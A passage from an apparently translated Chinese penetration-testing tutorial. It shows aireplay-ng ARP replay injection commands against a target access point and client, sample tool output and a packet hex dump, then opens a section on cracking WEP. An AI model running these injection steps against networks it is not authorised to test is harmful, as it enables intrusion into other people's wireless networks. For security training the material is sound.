 ```
aireplay-ng --arpreplay -b <target BSSID> -h <MAC address of connected client> <interface name> 
```

`-b`指定目标 BSSID，`-h`指定连接的客户端的 MAC。

1.  现在您必须等待 ARP 数据包到达。通常您需要等待几分钟。一旦成功，您将看到类似以下内容：

```
 Saving ARP requests in replay_arp-1001.cap 
```

1.  您还必须启动`airodump`来捕获回复：

```
 Read 2493 packets (got 1 ARP requests), sent 1305 packets...
```

1.  下一步是重用保存在文件中的捕获的 ARP 数据包。您会注意到它说 ARP 请求被保存在`replay_arp-1001.cap`中。因此，我们不必等待新的 ARP，只需使用`-r`参数重用旧的 ARP：

```
 aireplay-ng -2 -r replay_arp-1001.cap ath0                        
```

1.  系统的响应是：

```
 Size: 86, FromDS: 0, ToDS: 1 (WEP) 

           BSSID  =  00:14:6C:7E:40:80 
       Dest. MAC  =  FF:FF:FF:FF:FF:FF 
      Source MAC  =  00:0F:B5:88:AC:82 

      0x0000:  0841 0000 0014 6c7e 4080 000f b588 ac82  .A....l~@....... 
      0x0010:  ffff ffff ffff 7092 e627 0000 7238 937c  ......p..'..r8.| 
      0x0020:  8011 36c6 2b2c a79b 08f8 0c7e f436 14f7  ..6.+,.....~.6.. 
      0x0030:  8078 a08e 207c 17c6 43e3 fe8f 1a46 4981  .x.. |..C....FI. 
      0x0040:  947c 1930 742a c85f 2699 dabe 1368 df39  .|.0t*._&....h.9 
      0x0050:  ca97 0d9e 4731                           ....G1 

      Use this packet ? y 
      You say "y" and then your system will start injecting: 

      Saving chosen packet in replay_src-0219-123117.cap 
      You should also start airodump-ng to capture replies. 

      Sent 3181 packets... 
```

# 破解 WEP

无线网络与其他网络的一个独特特点当然是它们不使用传统媒体，而是使用无线电波将信息从一个点传输到另一个点。这就是使得这些网络如此吸引人和受欢迎的原因，一个人可以在无线网络的范围内随时随地携带设备，并且无需担心电缆等，仍然可以保持访问。然而，这种优势是有代价的，即无线电信号是不加区分的，任何能够接收它们的人也能够处理它们携带的信息。

幸运的是，无线网络的设计者将这视为一个问题，并决定在 IEEE 802.11b 网络设计的初始规范中构建**有线等效隐私**（**WEP**）的保护措施。在发布时，WEP 被视为一个很好的功能，但不久之后问题就出现了，随后不断恶化。
